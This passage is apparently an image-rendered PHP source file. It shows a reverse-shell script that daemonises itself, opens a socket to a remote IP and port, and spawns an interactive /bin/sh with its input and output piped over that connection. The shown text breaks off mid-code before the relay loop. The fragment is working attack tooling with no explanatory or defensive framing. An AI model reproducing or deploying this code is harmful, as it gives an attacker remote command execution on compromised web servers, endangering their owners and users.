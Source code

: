 ```php
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
```